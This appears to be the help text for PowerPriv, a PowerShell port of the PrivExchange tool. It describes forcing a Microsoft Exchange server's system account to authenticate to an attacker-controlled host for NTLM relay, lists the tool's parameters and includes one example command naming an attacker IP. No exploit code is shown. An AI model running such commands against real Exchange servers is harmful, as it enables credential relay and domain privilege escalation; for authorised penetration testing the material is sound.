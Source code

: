 # PowerPriv

.DESCRIPTION
    A powershell implementation of PrivExchange by @_dirkjan (original code found here: https://github.com/dirkjanm/PrivExchange/blob/master/privexchange.py)
    Useful for environments on which you cannot run python-based applications or do not want to drop files to disk.  Will cause the target exchange server system account to attempt to authenticate to a system of your choice.
.PARAMETER targetHost
    Hostname or IP of the target exchange box.  Based on DNS config may require FQDN if using hostname. (Required)
.PARAMETER attackerHost
    Hostname or IP of a system you control, and are ideally running ntlmrelayx on.  We are telling the Exchange server to attempt to authenticate to this system.  Based on DNS config may require FQDN if using hostname. (Required)
.PARAMETER exchangePort
    Port to attempt to connect to Exchange server over. Default is 443.
.PARAMETER attackerPort
    Port Exchange should attempt to connect back to the attacker over.  Default is 80
.PARAMETER attackerPage
    Page we are telling the Exchange server to connect to on our attack system. Slashes are not required.  Default is powerPriv.
.PARAMETER noSSL
    Set to true if you dont want to use https to connect initially to the Exchange server.  Default is false (use https).
.PARAMETER Version
    Version of Exchange server we're targeting.  Default is 2013.
.EXAMPLE
    powerPriv -targetHost corpExch01 -attackerHost 192.168.1.17 -Version 2016
.NOTES
    Author: @g0ldenGunSec  - Based on the tool created by @_dirkjan
    Only use this tool on networks you own or have permission to test against.   